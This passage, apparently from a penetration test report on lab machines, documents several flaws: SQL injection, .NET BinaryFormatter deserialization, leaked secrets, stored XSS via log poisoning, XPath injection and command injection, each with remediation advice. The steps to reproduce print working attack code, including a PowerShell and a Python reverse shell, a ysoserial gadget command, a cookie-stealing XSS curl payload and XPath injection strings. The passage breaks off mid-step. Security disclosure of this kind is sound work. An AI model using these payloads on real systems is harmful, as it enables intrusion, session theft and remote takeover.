{width="auto"}


#### Code Analysis

**File:** `Controllers/MyController.cs` (Lines 179-191)
```csharp
if (!secondaryEmail.IsEmpty())
{
    string emailPattern = @"\S+@[a-z\.]+"; //Very broad and imprecise validation of the email
    Regex rg = new Regex(emailPattern);
    if (rg.IsMatch(secondaryEmail))
    {
        SqlConnection conn = DbService.GetSqlConnection();
        SqlCommand cmd = new SqlCommand();
        cmd.Connection = conn;
        cmd.CommandType = CommandType.Text;
        cmd.CommandText = string.Format("SELECT * FROM Users WHERE Email = '{0}' OR SecondaryEmail = '{0}'", secondaryEmail); //The email parameter is placed directly into the query
        conn.Open();
        SqlDataReader rdr = cmd.ExecuteReader();
```

#### Patching and Remediation

The vulnerable query must be converted to use parameterized queries. The application already demonstrates correct usage of parameterized queries elsewhere in the same file (for example, in the `UPDATE` statement that follows the vulnerable `SELECT`), so this pattern should be applied consistently. The `string.Format()` call should be replaced with parameter placeholders and corresponding `AddWithValue()` calls.

The database account used by the application should be reviewed and configured following the principle of least privilege. The ability to read arbitrary files from the filesystem via `OPENROWSET(BULK...)` indicates the account has excessive permissions. Unless bulk operations are explicitly required by the application, this privilege should be revoked. In MSSQL, the `ADMINISTER BULK OPERATIONS` permission or membership in the `bulkadmin` role grants this capability and should be removed from the application's database user.

Additionally, the email validation should be replaced with the .NET Framework's built-in `System.Net.Mail.MailAddress` class, which provides RFC-compliant email parsing and will reject malformed input. This is more robust than custom regex patterns which can be prone to bypasses. However, input validation should be considered a defense-in-depth measure rather than a primary control.

```csharp
using System.Net.Mail; //Import the mail validation

// ...

string secondaryEmail = Request["secondaryEmail"];

if (!secondaryEmail.IsEmpty())
{
    try
    {
        var mailAddress = new MailAddress(secondaryEmail); //More rigorous validation, can throw an exception
        SqlConnection conn = DbService.GetSqlConnection();
        SqlCommand cmd = new SqlCommand();
        cmd.Connection = conn;
        cmd.CommandType = CommandType.Text;
        cmd.CommandText = "SELECT * FROM Users WHERE Email = @SecondaryEmail OR SecondaryEmail = @SecondaryEmail";
        cmd.Parameters.AddWithValue("@SecondaryEmail", mailAddress.Address); //The validated email is passed securely
        conn.Open();
        SqlDataReader rdr = cmd.ExecuteReader();
        // ... remainder unchanged
    }
    catch (FormatException)
    {
        // Invalid email format - reject input
    }
}
```


### RoyalFlush - Insecure Deserialization Leading to Remote Code Execution {#cc59c064-41d8-493c-b1f8-6687f77c9195}

#### CWE

CWE-502

#### CVSS 4.0

CVSS:4.0/AV:N/AC:H/AT:N/PR:L/UI:N/VC:H/VI:H/VA:H/SC:L/SI:L/SA:L (7.7 - High)

#### Affected Component(s)

* Vault.Royalflush.htb - `Services/PasswordService.cs` (DecryptPassword method)

#### External References

* https://learn.microsoft.com/en-us/dotnet/standard/serialization/binaryformatter-migration-guide/

#### Description & Cause

The vault-royalflush application contains an insecure deserialization vulnerability in its password management functionality. The application uses the .NET `BinaryFormatter` class to deserialize user-controlled data when decrypting stored passwords. An authenticated attacker who has obtained the application's AES encryption key and IV can craft a malicious serialized payload that, when deserialized, achieves arbitrary code execution on the underlying server as the user running the service.

#### Security Impact

Successful exploitation of this vulnerability allows an authenticated attacker to execute operating system commands on the server hosting the application within the context of the web application's service account. This could enable the attacker to access data available to that account, potentially pivot to other systems on the network, or disrupt services. The scope of impact depends on the privileges assigned to the application pool identity and the network segmentation in place.

#### Detailed Walkthrough

Insecure deserialization occurs when an application deserializes data from an untrusted source without adequate validation of the data's integrity or type safety. In .NET applications, the `BinaryFormatter` class is particularly dangerous because it can instantiate arbitrary types during deserialization. When combined with "gadget chains," which are sequences of existing classes in the application or framework that can be chained together, an attacker can achieve code execution simply by having the application deserialize a crafted payload.

The `BinaryFormatter` class has been explicitly deprecated by Microsoft due to these security concerns. Microsoft's documentation warns that `BinaryFormatter` is insecure and cannot be made secure, regardless of the data being deserialized.

In this application, the vulnerability exists in the password decryption workflow and was exploited in the following way:

1. The tester identified that the `DecryptPassword` method in `PasswordService.cs` decrypts a Base64-encoded, AES-encrypted blob and then passes the result to `BinaryFormatter.Deserialize()` (details in code analysis).

2. Further review revealed that users can import pre-encrypted passwords via the `/My/ImportPassword` endpoint, which stores attacker-controlled ciphertext directly in the database without validation of the underlying serialized object type.

3. When an authenticated user navigates to `/My/Passwords`, the application retrieves all stored passwords and calls `DecryptPassword` on each encrypted value, triggering deserialization.

## Steps to Reproduce

**Step 1: Set up a listener**

Start a netcat listener to receive the reverse shell connection:

```bash
ncat -lvp <Listening Port>
```

**Step 2: Create the reverse shell payload**

Save the following PowerShell reverse shell to a file (e.g., `serializationPayload.ps1`), replacing `<IP Address>` and `<Listening Port>` with the listener's details:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP Address>',<Listening Port>);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
}
```

**Step 3: Base64 encode the payload**

On linux:

```bash
cat serializationPayload.ps1 | iconv -t UTF-16LE | base64 -w 0
```

**Step 4: Generate the serialized payload**

Use ysoserial (available at: [ysoserial.NET](https://github.com/pwntester/ysoserial.net/releases)) with the `TextFormattingRunProperties` gadget chain targeting `BinaryFormatter`:

```powershell
.\ysoserial.exe -f BinaryFormatter -g TextFormattingRunProperties -c "powershell -e <Base64 Encoded Payload>"
```

**Step 5: Encrypt, deliver, and trigger the payload**

The payload must be encrypted using the application's AES key and IV (extracted via error-based SQL injection documented separately) and Base64-encoded. The attached exploit script automates encryption, submission via the Import Password feature at `/My/ImportPassword`, and triggers deserialization by visiting `/My/Passwords`:

```bash
python3 VaultDeserializeRCE.py
```

The listener receives a reverse shell connection as `royalflush\vault_user`.

{width="auto"}

Once the chosen command payload has been encoded by ysoserial in step 4, the attack can be automated using this script: [VaultDeserializeRCE.py](exploits/VaultDeserializeRCE.py)


#### Code Analysis

Reviewing the code reveals that a BinaryFormatter object is instantiated on line 54 and then used to deserialize the stored password object which causes the malicious code to execute.

**File:** `Services/PasswordService.cs` (Lines 44-62)
```csharp
        public static string DecryptPassword(string b64)
        {
            try
            {
                byte[] ciphertext = Convert.FromBase64String(b64);
                byte[] plaintext;

                using (ICryptoTransform decryptor = GetAES().CreateDecryptor())
                    plaintext = decryptor.TransformFinalBlock(ciphertext, 0, ciphertext.Length);
                // VULNERABLE: BinaryFormatter deserializes attacker-controlled data
                // allowing instantiation of arbitrary types via gadget chains
                BinaryFormatter bf = new BinaryFormatter();

                return Encoding.UTF8.GetString((byte[])bf.Deserialize(new MemoryStream(plaintext)));
            } 
            catch (Exception)
            {
                return "[!] ERROR: Corrupted Password";
            }
        }
```

#### Patching and Remediation

The application should discontinue use of `BinaryFormatter` entirely, as Microsoft explicitly states it cannot be made secure. The password storage mechanism should be redesigned to avoid serialization altogether, as it is unnecessary for this use case.

**File:** `Services/PasswordService.cs` 
```csharp
public static string DecryptPassword(string b64)
{
    try
    {
        byte[] ciphertext = Convert.FromBase64String(b64);
        byte[] plaintext;

        using (ICryptoTransform decryptor = GetAES().CreateDecryptor())
            plaintext = decryptor.TransformFinalBlock(ciphertext, 0, ciphertext.Length);

        // FIX: Directly decode bytes as UTF-8 string
        // No deserialization occurs, eliminating the attack surface
        return Encoding.UTF8.GetString(plaintext);
    } 
    catch (Exception)
    {
        return "[!] ERROR: Corrupted Password";
    }
}
```

For immediate remediation, both `EncryptPassword` and `DecryptPassword` should be refactored to work with raw UTF-8 bytes rather than BinaryFormatter-serialized data. The current approach of serializing a `byte[]` before encryption is unnecessary; the password bytes can be encrypted directly. This eliminates the deserialization attack surface entirely. Note that this change will require migration of existing stored passwords, as they are currently stored in the BinaryFormatter-serialized format.

**File:** `Services/PasswordService.cs` 
```csharp
public static string EncryptPassword(string password)
{
    // FIX: Encrypt raw bytes directly without serialization
    byte[] plaintext = Encoding.UTF8.GetBytes(password);
    byte[] ciphertext;

    using (ICryptoTransform encryptor = GetAES().CreateEncryptor())
        ciphertext = encryptor.TransformFinalBlock(plaintext, 0, plaintext.Length);

    return Convert.ToBase64String(ciphertext);
}
```

If serialization is required for other application functionality, developers should use type-safe serializers such as `System.Text.Json` or `XmlSerializer`. When using these serializers, it is critical to explicitly specify the expected type rather than allowing user input to control the type parameter; failing to do so can reintroduce deserialization vulnerabilities even with otherwise secure serializers. Additionally, input validation should be implemented to verify that imported password data conforms to expected formats before storage, which would prevent injection of malicious payloads even if a vulnerable deserializer were present. As a defense-in-depth measure, the application should run under the principle of least privilege to limit the impact of any successful exploitation.


### RoyalFlush - Hardcoded Credentials in Source Code Repository {#1164c285-502e-4806-8cad-a89d34950f67}

#### CWE

CWE-798

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N (7.1 - High)

#### Affected Component(s)

* Git.RoyalFlush.htb

#### External References


#### Description & Cause

Multiple sensitive credentials were discovered committed to the source code repositories for the Royal Flush applications. These include authentication secrets used for signing session tokens, database credentials, API keys, and SMTP configuration. An attacker with read access to the repository could use these credentials to forge authentication tokens, access backend databases, or leverage other application secrets.


#### Security Impact

The exposure of these credentials poses a significant security risk across the Royal Flush infrastructure. The most critical exposure is the `AUTH_SECRET` value used to sign HMAC-based authentication tokens in the www-royalflush application. With this secret, an attacker can forge valid authentication tokens for any user account if they know only the target's email address. This effectively bypasses all authentication controls without requiring the user's password. Additional database credentials were found hardcoded in source files, which could allow direct database access if the database servers are reachable. The exposure of multiple secrets across different applications suggests a systemic issue with credential management practices.

It is unclear who is given source code access since the tester was specifically granted access to git.royalflush.htb for this test. However, the storage of these secrets in this way creates a security risk both from the perspective of someone granted source code access but also from anyone who gains access to the files in other ways.

#### Detailed Walkthrough

Hardcoded credentials occur when developers embed sensitive values such as passwords, API keys, or cryptographic secrets directly into source code or configuration files that are then committed to version control. This practice is dangerous because version control systems retain historical data indefinitely, meaning that even if credentials are later removed from the current codebase, they remain accessible in the repository history. Anyone with read access to the repository, including current and former employees, contractors, or attackers who compromise the repository, can extract these credentials.

{width="auto"}

The tester performed the attack by conducting a source code review of the Royal Flush application repositories. During analysis of the git history, a previously committed `.env` file was discovered containing at least one presently valid production credential. Additionally, hardcoded credentials were identified in source code files that remain in the current codebase. The tester extracted the `AUTH_SECRET` value and analyzed the authentication mechanism in `util/auth.py` to understand how tokens are generated and validated. Critically, the token validation only confirms that the HMAC signature is valid, the required fields exist, and the token has not expired. The username field is used only for display purposes and is not validated against the database, meaning an attacker only needs to know a target user's email address to forge a valid token.

Using the extracted `AUTH_SECRET`, the tester wrote a Python script to forge a valid authentication token for an arbitrary user. The attack requires only knowledge of a target user's email address, which could be obtained through enumeration, social engineering, or other application vulnerabilities. The forged token was set as the `auth` cookie in the browser, resulting in successful authentication as the target user without knowing their password. If the target email belongs to a user with administrative privileges in the database, the forged token grants those same administrative privileges to the attacker.

Exploit script: [AuthForger.py](exploits/AuthForger.py)

{width="auto"}

#### Code Analysis


#### Patching and Remediation

All exposed credentials should be considered compromised and must be rotated immediately. This includes generating new values for `AUTH_SECRET`, `API_SECRET`, `APP_SECRET`, `ADMIN_SECRET`, and all database passwords. 

Credentials should never be stored in source code repositories. Instead, implement a secrets management solution appropriate to the deployment environment. For local development, use environment variables loaded from `.env` files that are explicitly excluded from version control via `.gitignore`. Ensure that `.env`, `*.config` files containing secrets, and similar sensitive files are added to `.gitignore` before the repository is initialized.

For the hardcoded credentials in source files such as `DbService.cs` and `config/database.php`, refactor the code to read these values from environment variables or a secrets manager rather than embedding them directly. 


### SecureData - Stored Cross-Site Scripting (XSS) via Log Poisoning {#9649bc09-b976-4cb8-8c94-ec6ecea8204e}

#### CWE

CWE-80

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:P/VC:H/VI:L/VA:L/SC:N/SI:N/SA:N (7.0 - High)

#### Affected Component(s)

* SecureData.htb - ` admin/admin_panel.php` 

#### External References

* https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html

#### Description & Cause

**Stored Cross-Site Scripting (XSS)** occurs when user-supplied input is persistently stored on the server and later rendered to other users without proper sanitization or output encoding. Unlike reflected XSS, which requires victim interaction with a malicious link, stored XSS payloads execute automatically when affected content is viewed, making it particularly dangerous in administrative contexts.

User-controlled HTTP headers (`X-Forwarded-For`, `Client-IP`, `User-Agent`) are logged without sanitization and subsequently rendered in the admin panel using `innerHTML`. This allows any authenticated user to inject malicious JavaScript that executes when an administrator views the logs, leading to session hijacking and full administrative access.


#### Security Impact

This vulnerability allows any authenticated user to escalate privileges to administrator by hijacking an admin session. Once an attacker injects a malicious payload into the logging system, any administrator who views the admin panel will have their session cookie exfiltrated to an attacker-controlled server. The attacker can then use this cookie to fully impersonate the administrator, gaining access to all administrative functions and sensitive data within the application.


#### Detailed Walkthrough

The application contains a multi-stage stored XSS vulnerability. The `get_source_ip()` function prioritizes user-supplied `HTTP_CLIENT_IP` and `HTTP_X_FORWARDED_FOR` headers over the actual remote address, allowing attackers to inject arbitrary values. The `log_query()` function then sends these unsanitized values to an internal logging API. When an administrator views the admin panel, the logs are fetched and rendered using `innerHTML`, which executes any HTML or JavaScript present in the logged data.

**Attack Flow**:
1. Tester authenticates as a low-privileged user (e.g., `testdeveloper` whose credentials were found via XPath injection)
2. Tester sends a request with a malicious `X-Forwarded-For` header containing a JavaScript payload
3. The application logs the request, storing the malicious payload in the logging system
4. An administrator views the admin panel at `/admin/admin_panel.php`
5. The admin panel fetches logs and renders them with `innerHTML`, executing the tester's JavaScript
6. The payload exfiltrates the administrator's session cookie to the tester's server and the tester uses the stolen cookie to access the admin panel as the administrator


## Steps to Reproduce

**Step 1: Set up a listener**

Start a netcat listener on a machine reachable by the server to capture the exfiltrated cookie:

```bash
nc -lvp <PORT>
```

**Step 2: Inject the XSS payload**

Submit a request with an XSS payload in the `X-Forwarded-For` header:

```bash
curl -X GET "http://securedata.htb/home.php" \
  -H "Cookie: session=<Session cookie of standard user>" \
  -H "X-Forwarded-For: :<PORT>/c='+document.cookie);x.send();\">"
```

When an administrator views the logged request, the payload executes and sends their session cookie to the attacker's listener.

{width="auto"}

**Step 3: Access the admin panel**

Use the captured session cookie to access the admin panel at `/admin/admin_panel.php`.

{width="auto"}


#### Code Analysis

Note: Despite this test being a 'blackbox', source code was obtained during testing via the XPath injection vulnerability, which extracted restricted files including application source code.


**File: `common/session.php` (Lines 114-137)**
```php
function log_query()
{
    global $logfile;
    global $log_url;
    $ip = get_source_ip();
    $ua = $_SERVER['HTTP_USER_AGENT'];
    $uri = $_SERVER['REQUEST_URI'];
    $request_id = hash('md5', $ip . $ua . $uri . time());

    // log to API
    $params = array(
        "ip" => $ip,
        "ua" => $ua,
        "uri" => $uri,
        "id" => $request_id,
    );
    $ch = curl_init($log_url . "?" . http_build_query($params));
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $response = curl_exec($ch);
    curl_close($ch);

    // log to logfile
    file_put_contents($logfile, "{$uri} - {$ua} - {$ip} (Request ID: {$request_id})\n", FILE_APPEND);
}
```

**File: `admin_panel.php` (Lines 169-181)**
```javascript
// Iterate through the data and populate the table
data.forEach(item => {
    var row = tableBody.insertRow();
    var cell1 = row.insertCell(0);
    var cell2 = row.insertCell(1);
    var cell3 = row.insertCell(2);
    var cell4 = row.insertCell(3);

    // Populate cells with data from the API response
    cell1.innerHTML = item.id;
    cell2.innerHTML = item.ip;
    cell3.innerHTML = item.user_agent;
    cell4.innerHTML = item.url;
```

#### Patching and Remediation

The most effective way to prevent log injection issues is to utilize the logging functionality provided by the web server. However, if custom logging functionality is required, user-supplied input must always be URL-encoded before it is written to a file or sent to a logging API. In PHP, this can be achieved using the `urlencode()` function, which encodes all non-alphanumeric characters including CRLF sequences and HTML/JavaScript metacharacters.

```php
function log_query()
{
    global $logfile;
    global $log_url;
    $ip = urlencode(get_source_ip());
    $ua = urlencode($_SERVER['HTTP_USER_AGENT']);
    $uri = urlencode($_SERVER['REQUEST_URI']);
    $request_id = hash('md5', $ip . $ua . $uri . time());
```

Then when rendering the content which has been saved do not use innerHTML as it causes severe security risks when all you need is the text.

```javascript
fetch('http://api.securedata.htb/fetch_logs')
    .then(data => {
        data.forEach(item => {
            var row = tableBody.insertRow();
            [...]

            cell1.textContent = item.id; #TextContent to ensure only text is saved
            cell2.textContent = item.ip;
            cell3.textContent = item.user_agent;
            cell4.textContent = item.url;
        });
    })
```

- Consider utilizing built-in web server logging (Apache/Nginx access logs) instead of custom logging implementations, as these handle sanitization automatically
- Implement Content Security Policy (CSP) headers to mitigate XSS impact
- Set `HttpOnly` and `Secure` flags on session cookies to limit cookie theft impact
- Validate that `X-Forwarded-For` and similar headers originate from trusted proxy servers before using their values


### SecureData - XPath Injection in File Search Functionality {#8fb8a524-1003-40ab-9325-b42f03a8e9cf}

#### CWE

CWE-643

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N (8.7 - High)

#### Affected Component(s)

* SecureData.htb  - File Search Endpoint - `q` parameter in `/query.php`

#### External References


#### Description & Cause

**XPath Injection** is an attack technique used to exploit applications that construct XPath queries from user input. Similar to SQL injection, it occurs when untrusted data is concatenated directly into a query string, allowing attackers to manipulate the query's logic. However, XPath injection targets XML data stores rather than relational databases. Because XPath lacks the permission model found in SQL databases, successful exploitation often grants access to the entire XML document structure.

The file search functionality at `/query.php` is vulnerable to XPath injection via the `q` parameter. User input is concatenated directly into an XPath query without sanitization, allowing attackers to manipulate query logic and access restricted files with valid download tokens.


#### Security Impact

Successful exploitation of this vulnerability allows an attacker to enumerate and download files stored in the application, including those marked as "restricted." This includes application source code such as \`config.php\`, \`db.php\`, and \`session.php\`, as well as the database schema (\`db\_schema.sql\`). The exposure of download tokens through the injection bypasses the intended access control mechanism, as these tokens authorize file downloads regardless of the user's permission level.


#### Detailed Walkthrough

The `q` parameter accepts user input for searching files by name. The backend constructs an XPath query using this input without proper sanitization. By injecting XPath syntax, an attacker can modify the query's logic.

It was first discovered by supplying a single quotation character, which caused an error and indicated that input was being improperly handled.

The application appears to execute a query similar to:

```xpath
/files/file[contains(name/text(), 'USER_INPUT')]/...
```

Supplying the payload `') or ('1'='1` causes the predicate to evaluate as universally true, returning all files regardless of visibility restrictions:

{width="auto"}

Position-based enumeration using payloads such as `') and ('1'='2') or position()=N and ('1'='1` allows iterating through every file in the XML document individually. Each file entry returned includes a valid download token, enabling the attacker to download restricted files directly. During testing, 22 restricted files were extracted including application source code and configuration files, using the script: [XpathFetchRestrictedFiles.py](exploits/XpathFetchRestrictedFiles.py)

These files provided new insight into application logic and contained saved credentials in plaintext such as db_schema.sql:


```
# testdeveloper:1faef43256c87d1e2d81550b25fe780a
INSERT INTO `users` (`username`, `role`, `password`) VALUES
('testdeveloper',  1, '$2a$12$hstCruIkPcUmcUBlE6lHYe23A3d6tqIAnpLBdAM/10B0Dk3LJqV/a');
```


## Steps to Reproduce

**Step 1: Confirm the injection**

Send the following search to confirm the XPath injection returns restricted files:

```
q=') or ('1'='1
```

The response will contain file entries including those marked as "restricted" that are not visible through normal search queries.

**Step 2: Extract a single file manually**

To retrieve a specific file by position, use the following payload structure:

```
') and ('1'='2') or position()=1 and ('1'='1
```

The response will contain a download link to the restricted file.

**Step 3: Automate enumeration**

The included script will connect and download every restricted file using this method and save them to a separate folder.

```bash
python3 XpathFetchRestrictedFiles.py
```

Expected output:

```
[1] restricted: db_schema.sql
    saved
[2] public: home.php
[3] restricted: config.php
    saved
...
done
```


#### Code Analysis


#### Patching and Remediation

Implement strict whitelist validation on the \`q\` parameter, allowing only alphanumeric characters and expected symbols such as dots and underscores for filenames. Additionally, verify the expected data-type and format, all user input should be treated as untrusted. If the XPath library supports it, use parameterized queries or prepared XPath expressions to separate data from query logic. 

Additionally, the application should not return download tokens for restricted files to unauthenticated users regardless of how the query is constructed. Server-side authorization checks on file downloads should verify user permissions independently of the search mechanism.


### SecureData - OS Command Injection in Service Status API Endpoint {#227c4e36-2836-4d1f-ac00-d1fe6b010352}

#### CWE

CWE-78

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:P/VC:H/VI:H/VA:H/SC:H/SI:H/SA:H (9.4 - Critical)

#### Affected Component(s)

* SecureData.htb - `api.securedata.htb/service_status` endpoint (`service` parameter)

#### External References


#### Description & Cause

The internal API at \`api.securedata.htb\` contains an OS command injection vulnerability in the \`/service\_status\` endpoint. The \`service\` parameter is passed directly to a system command without proper sanitization, allowing an attacker to execute arbitrary commands on the underlying server. While the API is restricted to internal network access only, this protection can be bypassed by leveraging the Stored XSS vulnerability documented separately in this report (see: Stored Cross-Site Scripting (XSS) via Log Poisoning). Combined, these vulnerabilities allow an external attacker to achieve remote code execution on the API server.


#### Security Impact

Successful exploitation of this vulnerability allows an attacker to execute arbitrary operating system commands on the API server. During testing, this vulnerability was exploited to obtain a reverse shell on the server and access sensitive files. An attacker with this level of access could read confidential data, modify or delete files, and potentially disrupt service availability.


#### Detailed Walkthrough

The potential for command injection was identified by reviewing the client-side code in \`admin\_panel.php\`, which revealed API calls to \`/service\_status?service=\<n>\`. The endpoint naming and parameter structure suggested the service name was likely passed to a system command. The admin dashboard makes client-side JavaScript requests to an internal API to display system information:

- `http://api.securedata.htb/fetch_logs` - Retrieves operation logs
- `http://api.securedata.htb/fetch_sysinfo` - Retrieves system metrics
- `http://api.securedata.htb/service_status?service=<n>` - Checks service status

Direct access to the API from external sources returned "Forbidden", indicating IP-based access restrictions, which seemed likely considering the message shown below. 

{width="auto"}

Attempts to bypass this restriction by spoofing an internal IP origin using \`X-Forwarded-For\` and \`Client-IP\` headers were unsuccessful. As a result, the Stored XSS vulnerability in the log functionality (documented separately) was leveraged to execute requests from an authorized internal context. In order for this injection to work, the request needed to include a session token for a logged in user.

The tester submitted a stored XSS payload as per the "Stored Cross-Site Scripting (XSS) via Log Poisoning" vulnerability, causing an internal user with access to the API to inject the command on the tester's behalf. This request then exploited the vulnerability and sent an interactive connection back to the tester.

## Steps to Reproduce

**Step 1: Set up a listener and host the reverse shell**

Prepare a reverse shell script (e.g., `shell.sh`) on an attacker-controlled web server. 

```bash
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<IP>",<Shell PORT>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
```

**Step 2: Prepare listeners**
